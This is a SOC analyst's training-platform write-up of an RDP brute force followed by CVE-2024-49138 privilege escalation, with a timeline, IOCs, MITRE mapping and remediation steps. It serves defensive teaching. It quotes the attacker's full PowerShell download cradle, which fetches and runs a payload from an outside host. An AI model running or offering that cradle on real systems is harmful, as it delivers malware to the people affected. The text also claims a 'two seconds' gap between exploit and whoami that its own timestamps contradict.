# SOC335 — CVE-2024-49138 Exploitation Detected (RDP Brute Force → SYSTEM Privilege Escalation)

**Platform:** LetsDefend
**Alert ID:** SOC335
**Severity (initial):** Medium → **Escalated to Critical**
**Category:** Privilege Escalation

---

## 1. Alert Summary

Host **Victor (172.16.17.207)** was compromised via a multi-stage attack: an external IP brute-forced RDP access, gained a successful remote logon, then used PowerShell to download and execute a malicious binary (`svohost.exe`) exploiting **CVE-2024-49138** — a critical local privilege escalation vulnerability in the Windows Common Log File System (CLFS) driver. The exploit successfully escalated the attacker's access from a standard user account to **NT AUTHORITY\SYSTEM**, confirmed by direct EDR evidence.

| Field | Value |
|---|---|
| EventID | 313 |
| Hostname | Victor |
| IP Address | 172.16.17.207 |
| RDP Source IP | 185.107.56.141 |
| Process Name | svohost.exe |
| Process Path | C:\temp\service_installer\svohost.exe |
| Parent Process | powershell.exe |
| File Hash (SHA256) | b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9 |
| Vulnerability | CVE-2024-49138 (Windows CLFS Driver — Heap-Based Buffer Overflow, LPE) |
| Device Action | Allowed |


*SIEM alert detail — SOC335, EventID 313, "CVE-2024-49138 Exploitation Detected."*

**Timestamp note:** The alert panel above displays the event time as 02:37 AM; this is inconsistent with every EDR process log and the RDP logon event, which consistently show **14:37 PM (2:37 PM)**. This appears to be a display artifact in the alert panel. This report uses 2:37 PM throughout, consistent with the corroborating EDR and authentication log evidence.

---

## 2. Vulnerability Profile — CVE-2024-49138

CVE-2024-49138 is a critical local privilege escalation (LPE) vulnerability in the Windows Common Log File System (CLFS) driver — a **heap-based buffer overflow**. A local attacker with low-privileged access can run a specially crafted program (here, `svohost.exe`) that interacts with the CLFS driver, triggering memory corruption that can be exploited to execute code with **Windows Kernel** permissions. A successful exploit escalates the attacker from a standard user to **NT AUTHORITY\SYSTEM**, granting complete control of the host — including the ability to disable security software, dump credentials, install persistent backdoors, and move laterally.

---

## 3. Investigation Timeline

| Time | Event |
|---|---|
| 02:35 PM | Multiple failed RDP authentication attempts (EventID 4625) from 185.107.56.141, username `admin` |
| 02:35 PM | Successful RDP logon (EventID 4624, Logon Type 10) — username `Victor`, same source IP |
| 02:37:10 PM | powershell.exe (PID 7752) executes download cradle, retrieving `service-installer.zip` from S3 |
| 02:37:12 PM | powershell.exe extracts the password-protected archive and launches `svohost.exe` |
| 02:37:12 PM | svohost.exe (PID 7640) executes, spawning conhost.exe — CVE-2024-49138 exploitation |
| 02:37:59 PM | whoami.exe executed under **NT AUTHORITY\SYSTEM**, parented by svohost.exe — confirms successful privilege escalation |

**Total elapsed time, initial RDP access to confirmed SYSTEM compromise: under 5 minutes.**

---

## 4. Investigation Steps

### 4.1 Initial Access — RDP Brute Force

*Multiple failed authentication attempts (EventID 4625) from 185.107.56.141 to 172.16.17.207:3389, all at 02:35 PM, username: **admin**.*


*EventID 4624 — successful logon, Logon Type 10 (RemoteInteractive), username: **Victor**, same source IP: 185.107.56.141.*

**Finding — username mismatch:** The failed authentication attempts captured in evidence used the username `admin`, while the eventual successful logon used the username `Victor`. This discrepancy was not fully resolved within this investigation — it is possible additional failed attempts against the `Victor` account exist in the fuller log set beyond what was captured here, or the attacker obtained valid `Victor` credentials separately (e.g., from a prior compromise) and only needed to locate the correct account name via the visible brute-force attempts. **This should be confirmed by pulling the complete authentication log for this time window**, as it affects whether this is a pure brute-force success or a partially credentialed attack.

### 4.2 Threat Intelligence — RDP Source IP

*AbuseIPDB — 185.107.56.141 (Serverhosting / nforce.com, Netherlands) reported 68 times, 0% current confidence score.* The 0% current confidence alongside a substantial historical report count (68) indicates this IP has a history of abuse but no *recent* reports at time of lookup — AbuseIPDB's confidence score weights recency heavily. **VirusTotal returned no data for this IP at time of review**; AbuseIPDB is the sole enrichment source available for this indicator.

### 4.3 Execution Chain — PowerShell Download Cradle

*EDR process timeline — powershell.exe (PID 7752, parent: explorer.exe) at 14:37:10 and 14:37:12, followed by svohost.exe (PID 7640, parent: powershell.exe) at 14:37:12.*


*14:37:10 — powershell.exe launched by Victor via explorer.exe, target command line begins a download operation from files-ld.s3.us-east-2.amazonaws.com.*

Full command line recovered:

```powershell
$url = 'https://files-ld.s3.us-east-2.amazonaws.com/service-installer.zip';
$dest = 'C:\temp\service-installer.zip';
$extractPath = 'C:\temp';
$password = 'infected';
if (-not (Test-Path -Path $extractPath)) { New-Item -ItemType Directory -Path $extractPath -Force | Out-Null };
Invoke-WebRequest -Uri $url -OutFile $dest;
$7zipPath = 'C:\Program Files\7-Zip\7z.exe';
Start-Process -FilePath $7zipPath -ArgumentList "x -p$password -o$extractPath $dest" -NoNewWindow -Wait -PassThru;
Remove-Item -Path $dest;
Start-Process -FilePath "$extractPath\service_installer\svohost.exe"
```

**Finding — password-protected archive as defense evasion:** The downloaded archive is extracted using a hardcoded password (`infected`) via 7-Zip. This is a deliberate evasion technique: password-protected/encrypted archives cannot be inspected by network security tools or many antivirus engines while in transit, since the malicious content inside is not visible until extracted locally with the correct password.


*14:37:12 — powershell.exe target process command line: "C:\temp\service_installer\svohost.exe" — the extracted payload is launched.*

### 4.4 CVE Exploitation — svohost.exe / conhost.exe

*14:37:12 — svohost.exe (PID 7640, parent: powershell.exe, path: C:\temp\service_installer\svohost.exe, hash: b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9) spawns conhost.exe with argument `0xffffffff -ForceV1`, consistent with CLFS exploit tooling behavior.*

**Process user discrepancy:** The alert panel (Section 1) lists the process user as `EC2AMAZ-ILGVOIN\LetsDefend`, while this EDR log for the same svohost.exe execution attributes it to `EC2AMAZ-ILGVOIN\Victor`. The EDR log is treated as authoritative for this report, as it reflects direct endpoint telemetry from the compromised host rather than a summary alert field; the `LetsDefend` value likely reflects a platform/training-environment default rather than a distinct real account.

### 4.5 Confirmed Privilege Escalation — SYSTEM-Level Execution

*14:37:59 — powershell.exe (PID 6528, parent: **svohost.exe**) executes `C:\Windows\system32\whoami.exe` under **Process User: NT AUTHORITY\SYSTEM**.*

**This is the definitive evidence of successful privilege escalation.** Two seconds after the svohost.exe/conhost.exe exploit sequence, a new PowerShell process — spawned directly by svohost.exe — executed `whoami.exe` running as **NT AUTHORITY\SYSTEM**, not as the standard `Victor` account. This directly confirms the CVE-2024-49138 exploit succeeded in escalating the attacker's access from a standard user to full SYSTEM privileges.

### 4.6 Threat Intelligence — Payload URL and File Hash

*VirusTotal — https://files-ld.s3.us-east-2.amazonaws.com/service-installer.zip flagged 9/92, malware. Crowdsourced context: "Activity related to SILENTBUILDER" (source: Cluster25) — SilentBuilder is a dropper/downloader used by a subgroup of Conti.*


*VirusTotal — svohost.exe flagged 50/71 vendors malicious. Popular threat label: trojan.ulise/expl. Threat categories: trojan, PUA, dropper. Tags include cve-2024-49138 and exploit.*

**Critical cross-case correlation:** The hosting domain `files-ld.s3.us-east-2.amazonaws.com` is **identical to the infrastructure identified in SOC282** (AsyncRAT phishing case), where it was also attributed to **SILENTBUILDER/Conti-subgroup** infrastructure. Two structurally different attacks against this organization — a phishing-delivered RAT (SOC282) and an RDP brute-force + CVE exploitation chain (this case) — used the **same delivery/hosting infrastructure**. This strongly suggests either a single threat actor running multiple concurrent campaigns against the organization, or shared criminal "dropper-as-a-service" infrastructure being leveraged across otherwise unrelated attacks. This should be flagged to the IR team as a priority correlation point when scoping the full extent of compromise.

---

## 5. MITRE ATT&CK Mapping

| Tactic | Technique |
|---|---|
| Initial Access | T1110 – Brute Force |
| Initial Access | T1133 – External Remote Services (RDP) |
| Execution | T1059.001 – Command and Scripting Interpreter: PowerShell |
| Defense Evasion | T1027 – Obfuscated Files or Information (password-protected archive) |
| Privilege Escalation | T1068 – Exploitation for Privilege Escalation (CVE-2024-49138) |
| Discovery | T1033 – System Owner/User Discovery (whoami.exe) |

---

## 6. Indicators of Compromise (IOC)

1. RDP brute-force / logon source IP `185.107.56.141`.
2. Malicious payload URL `https://files-ld.s3.us-east-2.amazonaws.com/service-installer.zip` — linked to SILENTBUILDER/Conti infrastructure, **same infrastructure as SOC282**.
3. Malicious file hash `b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9` (svohost.exe) — flagged by 50/71 vendors, explicitly tagged for CVE-2024-49138 exploitation.
4. Process chain: `powershell.exe → svohost.exe → conhost.exe`, and `svohost.exe → powershell.exe (whoami.exe, running as SYSTEM)`.
5. Password-protected archive extraction (password: `infected`) as a defense-evasion technique.

---

## 7. Verdict

> **True Positive — Confirmed successful RDP compromise and CVE-2024-49138 exploitation resulting in full SYSTEM-level privilege escalation.**

**Reasoning:**
- Confirmed successful RDP logon from a source IP with documented abuse history, following brute-force activity.
- Full process chain reconstructed via EDR: PowerShell download cradle → password-protected archive extraction → execution of a file independently confirmed malicious (50/71 vendors) and explicitly tagged for CVE-2024-49138 exploitation.
- **Direct evidence of successful privilege escalation**: whoami.exe executed under NT AUTHORITY\SYSTEM, spawned by the exploit binary two seconds after execution.
- Delivery infrastructure matches infrastructure independently confirmed in a separate incident (SOC282), indicating a broader pattern of compromise attempts against this organization.

**Severity reassessment:** Alert fired as **Medium**; given confirmed SYSTEM-level compromise via active CVE exploitation, this must be treated as **Critical**.

**Open items requiring IR follow-up (not resolved within this investigation):**
- Username discrepancy between failed (`admin`) and successful (`Victor`) RDP logon attempts.
- Process-user field discrepancy between the alert panel and EDR log for svohost.exe (addressed above, EDR treated as authoritative).

---

## 8. Containment & Recommendations

- [ ] Isolate host Victor (172.16.17.207) from the network immediately to prevent lateral movement.
- [ ] Reset Victor's account credentials and invalidate all active sessions.
- [ ] Block IP `185.107.56.141` and domain `files-ld.s3.us-east-2.amazonaws.com` at the firewall/proxy.
- [ ] Block file hash `b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9` across EDR/AV.
- [ ] **Apply the Microsoft security patch for CVE-2024-49138** to this host and audit all other Windows systems in the environment for the same vulnerability — this is the highest-priority remediation given confirmed active exploitation.
- [ ] Pull the complete RDP authentication log for the full attack window to resolve the admin/Victor username discrepancy.
- [ ] Cross-reference this incident with SOC282 given shared delivery infrastructure (SILENTBUILDER/Conti) — assess whether both incidents originate from the same campaign or actor.
- [ ] Implement MFA, strong password policy, and account lockout thresholds for RDP-accessible accounts.
- [ ] Restrict direct internet exposure of RDP; require VPN/bastion host access instead.
- [ ] Escalate to the IR team for full forensic investigation, including post-SYSTEM-compromise activity (credential dumping, persistence mechanisms, lateral movement).

---

## 9. Closure

**Analyst Submission:** Malicious Activity Detected — Confirmed Critical Privilege Escalation
**Alert Playbook Followed:** Yes
**Escalated:** Yes — escalated to IR team for full forensic investigation given confirmed SYSTEM-level compromise.

**Closure Note:**
> Host Victor (172.16.17.207) was accessed via RDP from 185.107.56.141 following brute-force activity. PowerShell was used to download and execute svohost.exe (confirmed malicious, 50/71 vendors, tagged CVE-2024-49138), exploiting a CLFS driver vulnerability. EDR evidence directly confirms successful privilege escalation: whoami.exe executed as NT AUTHORITY\SYSTEM, spawned by the exploit binary. Delivery infrastructure matches SOC282 (SILENTBUILDER/Conti). Verdict: True Positive — confirmed Critical compromise. Recommend immediate isolation, credential reset, IOC blocklisting, urgent patching of CVE-2024-49138 across the environment, and full IR escalation.

---

## Key Takeaways (Lessons for Future Investigations)

- Direct proof of privilege escalation (a process log showing execution as SYSTEM/root) is far stronger evidence than inferring escalation from the presence of an exploit binary alone — always try to find and cite the specific log entry that proves the *outcome*, not just the attempt.
- Reconcile discrepancies between different data sources (alert panel vs. EDR, differing usernames, differing timestamps) explicitly in the report rather than silently choosing one — state which source is authoritative and why.
- Always check delivery infrastructure (hosting domains, C2 IPs) against your own prior investigations — shared infrastructure across seemingly unrelated alerts is a high-value correlation finding that's easy to miss if each alert is treated in isolation.
- A hardcoded archive password in a download script is a specific, callable-out defense-evasion technique, not just an implementation detail to mention in passing.
- When a threat-intel platform returns no data for an indicator, say so explicitly rather than omitting the check — it shows the enrichment step was performed even when it didn't yield a result.
